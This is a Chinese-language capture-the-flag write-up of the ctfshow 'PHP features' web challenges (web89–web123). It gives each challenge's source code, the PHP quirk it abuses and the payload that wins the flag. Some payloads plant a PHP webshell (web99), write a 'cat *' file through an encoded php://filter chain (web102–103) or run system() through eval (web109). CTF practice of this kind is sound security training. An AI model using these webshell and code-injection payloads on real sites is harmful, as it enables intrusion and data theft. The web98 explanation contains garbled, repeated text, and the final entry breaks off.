## ctfshow-php特性


### web89

**preg_match() intval()传入数组特性**

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 15:38:51
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


include("flag.php");
highlight_file(__FILE__);

if(isset($_GET['num'])){
    $num = $_GET['num'];
    if(preg_match("/[0-9]/", $num)){
        die("no no no!");
    }
    if(intval($num)){
        echo $flag;
    }
}
```

这道题目涉及了两个函数：preg_match（）和intval（）简要介绍一下两个函数


#### preg_match函数

```
preg_match（）用于对字符串进行正则表达式的匹配，但是在传入字符串的时候确实会抛出一个 Warning 错误，但它不会导致整个 PHP 脚本终止。可以利用这个绕过第一个if语句
```


#### intval函数

```
intval（）用于将字符串转化为整数，特殊情况：传入数组的话会判断里面有没有元素，有则返回1，没有返回0，可以利用这个绕过第二个if语句
```


于是payload为?num[]=a

```
?num[]=a
```




```
ctfshow{8fbad5af-6b15-4599-8f20-486a5d7ec9be}
```


### web90

#### intval() 转换特性

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 16:06:11
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

代码解释，get一个num参数，如果这个变量不是‘4476’，并且在经过intval（）函数处理之后，结果等于4476就输出flag


- 这里的intval（）函数，在处理字符串时，如果字符串以数字开头，则会先转化为数字，后面如果有其他非数字内容则会忽略，即：将第一个非数字（加减号除外）前的内容转换为数字： 例如：intval(‘dsa1’)=0 intval(‘12dfjkhjkdf111’)=12 因此payload为?num=4476djfj

- 可以使用不同的数字类型的数据，如浮点数 num=4476.0

- 由于intval（）函数可以有多个参数 intval（var,base） 这里的base表示进制，因此 num=010574或num=0x117c 也可以得到flag



```
ctfshow{3fc25e0e-3322-4a2d-946a-d17a32d2e40b)
```


### web91

#### preg_match多行匹配

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 16:16:09
# @link: https://ctfer.com

*/

show_source(__FILE__);
include('flag.php');
$a=$_GET['cmd'];
if(preg_match('/^php$/im', $a)){
    if(preg_match('/^php$/i', $a)){
        echo 'hacker';
    }
    else{
        echo $flag;
    }
}
else{
    echo 'nonononono';
}
```


要通过第一个正则表达式成功，第二个失败，才会输出flag：分析一下两个表达式：


- 第二个比第一个少了个m修饰，表示多行模式匹配，第二个单行匹配， 中间//之间的是要匹配的内容， ^表示匹配字符串开始， $表示字符串结尾， i表示不区分大小写，也就是php Php PHP这样的都可以匹配由于第一个有m，那就说明是匹配的是每一行的开头和结尾，有一行满足即可而不是字符串的开头和结尾 所以**ccc%0aphp**也可以得到flag
- 因此可以让他通过第一个，通过包含换行符

但是这里的换行要进行url编码才可以

```
cmd=php\nphp
编码php%0aphp
```




### web92

#### intval()函数特性

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 16:29:30
# @link: https://ctfer.com

*/

include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

我们看到intval($num,0)==4476，0为8进制，相当于



所以我们只需要去

```
?num=010574
```



```
ctfshow{0d71fa0a-6d1f-4219-b01f-a03d5554e07b}
```

1. 在PHP中，字符串与整数比较时，字符串会尝试被转换为整数
2. 如果 $num 字符串以数字开头，它会被转换为那个数字；否则，转换为0
3. 因此，如果 $num 是 “4476”（或任何以4476开头的字符串），这个条件为假

intval（4476e2）的处理，这样会当作科学记数法处理

所以




### web93

#### intval（）特性

```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

和上题一样只是说加了给不能出现字母，导致上不能使用16进制，但是我们还是用我们的8进制

```
num=010574
```



```
ctfshow{faf08cd5-ce47-4285-9193-8a55c26f3b2d}
```


### web94

#### strpos（）函数

```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(!strpos($num, "0")){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```

我们发现进行了3个等号的验证这里判断num是否值和类型和4476相同，然后判断是否含有字母，并且判断0的位置

如果不含0或者0在开头第一个位置，均不可

最后再判断intval处理后是否等于4476，因此构造payload：num中要 有0，但是不能再第一位，于是可以 加个+ :num=+010574:



```
ctfshow{375ef0cb-dae1-4330-bb4e-f663857ca2c4}
```

也可利用浮点数绕过 num=4476.0：

通过空白符（换行符、制表符、空格等）也可以绕过第一个字符不为0，但是又包含0的限制

```
%0a010574
```


#### strpos（）函数

```php
int strpos ( string $haystack , mixed $needle [, int $offset = 0 ] )
参数说明
$haystack: 要搜索的字符串（母字符串）。
$needle: 需要查找的字符或字符串（子字符串）。
$offset: 可选参数。指定开始搜索的位置。如果为负数，则从字符串末尾开始。
返回值
返回 needle 在 haystack 中首次出现的位置（从 0 开始计数）。
如果未找到 needle，则返回 false。

```


### web95


```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]|\./i", $num)){
        die("no no no!!");
    }
    if(!strpos($num, "0")){
        die("no no no!!!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```

这里多过滤了一个点号，说明不能用小数绕过，我们可以用空格或者+





```
ctfshow{8047b993-e298-417a-8aee-904b1f82a263}
```


### web96

##### linux下当前目录的表示

```php
highlight_file(__FILE__);

if(isset($_GET['u'])){
    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }


}
```

看起来直接把我们的flag给过滤了我们利用 ./flag.php绕过



```
ctfshow{754436eb-beb8-4fcd-a970-a283e7494e19}
```


### web97

#### 强类型比较绕过

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 19:36:32
# @link: https://ctfer.com

*/

include("flag.php");
highlight_file(__FILE__);
if (isset($_POST['a']) and isset($_POST['b'])) {
if ($_POST['a'] != $_POST['b'])
if (md5($_POST['a']) === md5($_POST['b']))
echo $flag;
else
print 'Wrong.';
}
?>
```

MD5的强类型比较

我们可以直接用数组来md5无法处理数组

```
a[]=1&b[]=2
```



```
ctfshow{7e609b99-4e3f-46d2-ba18-118b7f715a4c}
```


### web98

#### 超级全局数组

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 21:39:27
# @link: https://ctfer.com

*/

include("flag.php");
$_GET?$_GET=&$_POST:'flag';
$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';
$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';
highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);

?>
```

```
包含文件flag.php，后面是一连串的四个三木运算符，XXX？语句1：语句2 意思是XXX条件如果成立，返回语句1的结果，否则返回语句2的结果。那么第一句的意思就是：判断全局变量GET对应的数组是否为空，不为空的话，将_GET 对应的数组是否为空，不为空的话，将 
GET对应的数组是否为空，不为空的话，将_POST全局变量对应的数组的地址赋给GET,也就是让两个数组指向同一个地址，如果为空的话，就返回flag这个字符串，但是不进行赋值操作，后两句同样的道理，只不过是判断有没有get到一个名flag的变量，并且值为flag，由于我们最终目标是获取_GET,也就是让两个数组指向同一个地址，如果为空的话，就返回flag这个字符串，但是不进行赋值操作，后两句同样的道理，只不过是判断有没有get到一个名flag的变量，并且值为flag，由于我们最终目标是获取 
GET,也就是让两个数组指向同一个地址，如果为空的话，就返回flag这个字符串，但是不进行赋值操作，后两句同样的道理，只不过是判断有没有get到一个名flag的变量，并且值为flag，由于我们最终目标是获取flag，于是，我们就得让

```


所以我们get一个全局变量1的flag



```
ctfshow{347d7656-5219-43e5-9d54-e943252b9ea0}
```


全局数组

```php
1. $_GET
定义: 用于收集通过 URL 查询字符串传递的数据。通常在HTTP GET请求中使用。
使用场景: 当你在表单中指定了 method="get"，或者在 URL 中直接传递查询参数时。
示例:
// URL: http://example.com/page.php?name=John&age=25
echo $_GET['name']; // 输出: John
echo $_GET['age'];  // 输出: 25
2. $_POST
定义: 用于收集通过 HTTP POST 方法发送的数据。一般在表单提交时使用。
使用场景: 当表单的数据通过 method="post" 发送时。
示例:
// 表单数据提交
// <form method="post"><input type="text" name="username"></form>
echo $_POST['username']; // 输出用户提交的用户名
3. $_REQUEST
定义: 包含 $_GET、$_POST 和 $_COOKIE 的内容，提供了一种访问不同请求类型数据的简便方法。
使用场景: 当不确定数据来自哪里时，可以使用 $_REQUEST。
示例:
echo $_REQUEST['name']; // 如果存在同名字段，从 GET, POST 和 COOKIE 中返回
4. $_COOKIE
定义: 用于访问 HTTP cookies 的数据。
使用场景: 当服务器或者客户端设置 cookies 时。
示例:
// 假设设置了 cookie: setcookie("user", "John");
echo $_COOKIE['user']; // 输出: John
5. $_SESSION
定义: 存储用户会话数据。必须在使用前开启会话（使用 session_start()）。
使用场景: 当用户需要在多个页面之间保持状态时（如登录状态）。
示例:
session_start();
$_SESSION['username'] = 'John';
echo $_SESSION['username']; // 输出: John
6. $_SERVER
定义: 包含关于服务器环境的信息和客户端请求的信息。
使用场景: 用于获取服务器信息（如请求头、脚本路径、访问的URL等）。
示例:
echo $_SERVER['HTTP_USER_AGENT']; // 输出: 客户端的用户代理字符串
echo $_SERVER['REQUEST_METHOD'];    // 输出: GET 或 POST
7. $_FILES
定义: 用于通过 HTTP POST 方法上传的文件信息。
使用场景: 当表单中包含文件上传字段时。
示例:
// <input type="file" name="uploaded_file">
if ($_FILES['uploaded_file']['error'] == UPLOAD_ERR_OK) {
    echo $_FILES['uploaded_file']['name']; // 输出上传文件的名称
}

```


### web99

#### in_array()函数特性，不设置第三个参数时进行弱类型比较

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 22:36:12
# @link: https://ctfer.com

*/

highlight_file(__FILE__);
$allow = array();
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
}

?>
```

先分析代码，首先通过allow获取一个空数组，后来将其产生的随机数添加到数组中去

​	从 36开始到 0x36d即 877 的十六进制表示）。在每次循环中，使用 rand(1, $i) 生成一个在1 和 $i 之间的随机整数，并将其推入 $allow 数组中。这个过程将填充 $allow数组，以包含多个随机数。具体会填充多少个随机数取决于循环的执行次数（即0x36d - 36 = 841次）。


然后，检查 GET 请求中是否存在名为 n 的参数，并且该参数的值是否在 $allow 数组中。isset($_GET['n']) 确定 'n'参数是否存在，in_array($_GET['n'], $allow)确定这个参数的值是否在之前填充的$allow> 数组中。如果这两个条件成立：file_put_contents($_GET['n'], $_POST['content']);将 $_POST['content'] 的内容写入一个由n 参数指定的文件。这里**in_array（）函数有一个漏洞，如果不设置第三个参数**，那么，这里进行的就是弱类型比较，eg：1.php==1显示为true，那么这里就可以讲一段PHP代码写入文件，文件名选择可以满足条件的1-877均可，这里选择出现频率高的，比如1,2这样的，

```
?n=1.php

post
content=<?php system($_POST[m]);?>
```












### web100

#### && > || > = > and > or

```php
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}


?>
```

优先级：**&& > || > = > and > or**

$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);

=的运算符比and高

对于v0的值只需要看v1就可以v2,v3是干扰

所以v1输入数字

v3要匹配到分号,但是要加注释符*/但是不知道为什么//不行

v2是比较复杂的，用v2=var_dump($ctfshow)或者v2=var_dump(new ctfshow())

```
?v1=1&v2=var_dump($ctfshow)/*&v3=*/;
或?v1=1&v2=var_dump($ctfshow)&v3=;
```



```
0x2d是-
flag_is_cfc1d1700x2de8740x2d47700x2dbf130x2dd70f8ff2c54b
ctfshow{cfc1d170-e874-4770-bf13-d70f8ff2c54b}
```


### web101

#### 反射类

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-22 00:26:48
# @link: https://ctfer.com

*/

highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)){
        if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}

?>
```

通过分析我们得知此题有很多过滤，使用反射类方法

- ReflectionClass：一个反射类，功能十分强大，内置了各种获取类信息的方法，创建方式为new ReflectionClass(str 类名)，可以用echo new ReflectionClass(‘className’)打印类的信息。


- ReflectionObject：另一个反射类，创建方式为new ReflectionObject(对象名)。

所以构造payload

```
?v1=1&v2=echo new Reflectionclass&v3=;
```



```
flag_7efb2c270x2da0520x2d4d300x2d86440x2d9c8106c5845 
```

但是好像最后一个有问题，我也不知道


### web102

#### call_user_func()函数

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: atao
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-23 20:59:43

*/


highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}


?> 

```

- call_user_func()：把第一个参数作为回调函数使用，后面的参数是这个函数的参数。返回调用函数的返回值。其实就是一种特殊的调用函数的方式。**用户通过 POST 传进来的任意字符串** `$v1` 当成 **函数名** 去调用

- substr(string,start<,length>)从string 的start位置开始提取字符串

- file_put_contents()：把一个字符串写入文件，如果文件不存在则创建之。

```
可以使用hex2bin() 转化16进制
即先将payload用base64编码，再转化为16进制，最后加上两个数字（v2）
```



```
<?=`cat *`;
PD89YGNhdCAqYDs=

不要等号
然后转换成16进制的
```




```
v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-
decode/resource=2.php
POST
v1=hex2bin
#访问1.php后查看源代码获得flag

```

```
$a='<?=`cat *`;';
$b=base64_encode($a);  // PD89YGNhdCAqYDs=
$c=bin2hex($b);      //这里直接用去掉=的base64
输出   5044383959474e6864434171594473

带e的话会被认为是科学计数法，可以通过is_numeric检测。
大家可以尝试下去掉=和带着=的base64解码出来的内容是相同的。因为等号在base64中只是起到填充的作用，不影响具体的数据内容。

```

然后访问这个php得到flag



```
ctfshow{f6abfc54-98cb-4ed3-a654-27c616390728}
```


### web103

#### file_put_contents


```php
highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    if(!preg_match("/.*p.*h.*p.*/i",$str)){
        file_put_contents($v3,$str);
    }
    else{
        die('Sorry');
    }
}
else{
    die('hacker');
}

?>
```

这次只是把php的后缀的过滤了，但是我根本就没有php后缀啊

继续用上面的来写



```
v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-
decode/resource=2.php
POST
v1=hex2bin
#访问1.php后查看源代码获得flag
```


```
ctfshow{dd45ba96-976c-4ddf-8456-6b19594f4ad6}
```


### web104

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: atao
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-28 22:27:20

*/


highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2)){
        echo $flag;
    }
}


?>
```


sha1($v1)==sha1($v2)

这是**核心的逻辑判断**。它将 v1 和 v2 的值分别计算 SHA1 哈希值，然后使用双等号 `==` 进行比较。如果两个哈希值相等，就会输出flag


**双等号 ==**进行比较，这是一种弱类型比较。当 **sha1() 函数**接收一个数组时，它会返回 false，PHP 在进行弱类型比较时会将两个 false 判断为相等。


我们直接想起，数组绕过。

```
？v2[]=1

v1[]=2
```



```
ctfshow{5d5b1f58-6b09-440c-a84a-809dc4fb09a1}
```


### web105


```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-28 22:34:07

*/

highlight_file(__FILE__);
include('flag.php');
error_reporting(0);
$error='你还想要flag嘛？';
$suces='既然你想要那给你吧！';
foreach($_GET as $key => $value){
    if($key==='error'){
        die("what are you doing?!");
    }
    $$key=$$value;
}foreach($_POST as $key => $value){
    if($value==='flag'){
        die("what are you doing?!");
    }
    $$key=$$value;
}
if(!($_POST['flag']==$flag)){
    die($error);
}
echo "your are good".$flag."\n";
die($suces);

?>
你还想要flag嘛？
```


第一个foreach-get传入的值不能带有error 这个好绕然后 值给key

比如是 ?a = b，a就变成了b （有点乱。直接覆盖掉a了）


第二个 foreach

post传入的要等于flag 不然die


第三个post传入的值，不能等于flag

简单明了的思路就是
我们直接覆盖掉error ，让e r r o r 等于 error等于error等于flag
get传入 ?suces=flag 绕过第一个foreach

post传入error=suces ,然后error就等于$flag

相当于将error覆盖flag

```
?suces=flag
error=suces
```



```
ctfshow{54e27614-2b5c-4185-9150-90c18637ad15}
```


### web106

#### 数组绕过

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: atao
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-28 22:38:27

*/


highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2) && $v1!=$v2){
        echo $flag;
    }
}


?>
```

发现又是这种类似的，我们直接用数组绕过

```
?v2[]=1

v1[]=2
```




```
ctfshow{6c24286e-5cea-4737-867f-02845d38be2b}
```


### web107

#### parse_str()函数

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-28 23:24:14

*/


highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if(isset($_POST['v1'])){
    $v1 = $_POST['v1'];
    $v3 = $_GET['v3'];
       parse_str($v1,$v2);
       if($v2['flag']==md5($v3)){
           echo $flag;
       }

}

?>
```



大致要求就是 v1中flag的值为v3的md5加密后的值

```
get:
v3=kradress

post:
v1=flag=dd56df39b41787cc044cb590f17ba15b
```



```
ctfshow{28000167-3e42-405d-92d3-677363008402}
```


### web108

#### ereg 函数

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-28 23:53:55

*/


highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {
    die('error');

}
//只有36d的人才能看到flag
if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}

?>
error
```

```
ereg ("^[a-zA-Z]+$", $_GET['c'])
使用 ereg 函数检查 $_GET['c'] 是否只包含大小写字母，不满足直接 die。
```


**strrev函数**反转字符串，0x36d为877


其中 ereg 函数存在 NULL 截断漏洞，我们可以使用 %00 进行截断，payload：

```
?c=a%00778
```

这样正则就只会匹配 %00 之前的内容，即匹配到 a，符合要求，函数返回 true，if 语句不成立，跳过 die 函数，payload 经 strrev 函数反转后变为 877%00a，因为是弱比较，会存在自动类型转换，经过 intval 转为整数 877，比较成立，输出 flag。



```
ctfshow{f29f8981-2f7f-4243-94de-a111a9a36359}
```


### web109

#### echo一个类

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-29 22:02:34

*/


highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }

}

?>
```

v1是一个类

但是如果直接echo一个类是会显示错位的，那么就要找到一个类，echo它会有返回值

题目并没有给我们定义类，所以我们需要去使用php的内置类

比如**Exception 类**

关于v2（）：只要变量后面直接跟着（），那么对变量进行函数调用

```
system('ls')
```



?v1=Exception&v2=system('ls')



```
ctfshow{5c51f632-e0d4-4326-b8d5-dd0157b5f98d}
```

其他的方法：

v1=Error&v2=system("ls")

v1=mysqli&v2=system("ls")

v1=Reflectionclass&v2=system('ls')

v1=class{ public function __construct(){ system('ls'); } };&v2=abc (构造类)


### web110

#### getcwd函数

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-29 22:49:10

*/


highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }

    eval("echo new $v1($v2());");

}

?>
```

使用109的各种方法都不行，无法绕过

使用109的各种方法都不行，无法绕过

FilesystemIterator是 PHP 中的一个类，用于遍历文件系统目录中的文件和子目录，但是需要给他一个路径

考虑查看目录函数的替代：scandir()、golb()、dirname()、basename()、realpath()、getcwd()

其中 scandir()、golb() 、dirname()、basename()、realpath() 需要给定参数

而 getcwd() 不需要参数


getcwd是内置的函数，用于获取当前工作目录的路径


故v2=getcwd（）



```
?v1=FilesystemIterator&v2=getcwd
```

发现可以访问



```
ctfshow{9f9be532-b74a-4e82-890d-d9889e5e9e7a}
```


### web111


```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-30 02:41:40

*/

highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}


if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v2)){
            die("error v2");
    }
    
    if(preg_match('/ctfshow/', $v1)){
            getFlag($v1,$v2);
    }

}

?>
```

v1肯定是要ctfshow的

把 `$v1` 和 `$v2` 替换成你传的值

根据函数作用

- URL 传参时 $v2 不能直接传为 flag，否则 $flag 会因“函数内部无法调用外部变量”的限制而导致其返回 null

所以只能用GLOBALS 常量数组（它是一个包含了所有全局作用域中变量的数组），其中包含了 $flag 键值对

```
$ctfshow = &$GLOBALS;
```

eval("$$v1 = &$$v2;");

变量 `$ctfshow` 变成了 **整个超全局数组 `$GLOBALS` 的引用（别名）**

```
var_dump($$v1);   // 即 var_dump($ctfshow);
```



```
ctfshow{caa2aa43-bc52-4047-aabf-1c5a9a137b9c}
```


### web112

#### filter伪协议

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-30 23:47:49

*/

highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

发现没有禁止filter

is_file() 是 PHP 中用于检查给定文件名是否为一个常规文件的内置函数。它返回一个布尔值：如果文件存在且是一个常规文件（不是目录、符号链接等），则返回 true；否则返回 false

那我们就有多种方式

php://filter/resource=flag.php

一些常见的过滤器：

```
convert.quoted-printable-encode：将数据编码为 Quoted-Printable 编码格式

convert.iconv.*：使用 iconv 库进行字符编码转换

zlib.deflate：使用 zlib 库对数据进行 deflate 压缩

convert.iconv.UCS-2LE.UCS-2BE：小端转大端

bzip2.compress：使用 bzip2 算法压缩数据

string.rot13：rot13编码

string.tolower：将所有字符转换为小写

convert.base64-decode：base64编码

```



```
ctfshow{51f7a5f9-fd28-4550-a761-b2f6f19def56}
```


### web113

#### compress.zlib绕过

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-30 23:47:52

*/

highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/filter|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

这里是把filter禁了

那就用compress.zlib





```
?file=compress.zlib://flag.php
```

```
ctfshow{e1d91000-8883-4aea-9cd2-7eb63c5a97d6}
```


### web114

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-01 15:02:53

*/

error_reporting(0);
highlight_file(__FILE__);
function filter($file){
    if(preg_match('/compress|root|zip|convert|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
echo "师傅们居然tql都是非预期 哼！";
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
} 师傅们居然tql都是非预期 哼
```

没有禁止filter，那就

```
php://filter/resource=flag.php
```



```
ctfshow{788364b6-750f-4667-93e4-68e6863c3493}
```


### web115


```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-01 15:08:19

*/

include('flag.php');
highlight_file(__FILE__);
error_reporting(0);
function filter($num){
    $num=str_replace("0x","1",$num);
    $num=str_replace("0","1",$num);
    $num=str_replace(".","1",$num);
    $num=str_replace("e","1",$num);
    $num=str_replace("+","1",$num);
    return $num;
}
$num=$_GET['num'];
if(is_numeric($num) and $num!=='36' and trim($num)!=='36' and filter($num)=='36'){
    if($num=='36'){
        echo $flag;
    }else{
        echo "hacker!!";
    }
}else{
    echo "hacker!!!";
} hacker!!!
```

本题需要找到一个num，满足：数字，不全是36，trim后不全是36，filter函数后==36，并且num==36

**trim()** 是 PHP 中的一个内置函数，用于去除字符串两端的空白字符或其他预定义字符

首先是is_numeric的绕过，用来检查一个变量**是否是数字**,我们可以加入%00 %0a %20等字符绕过

到这里，前两个都满足了

接下来是**trim函数**





那就选择0c吧，接下来是第四个条件%0c36也满足

```
%0c36
```



```
ctfshow{69f0a992-3846-4da1-b188-4e3118d06c03}
```


### web123

#### pHP 内核**硬编码**

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
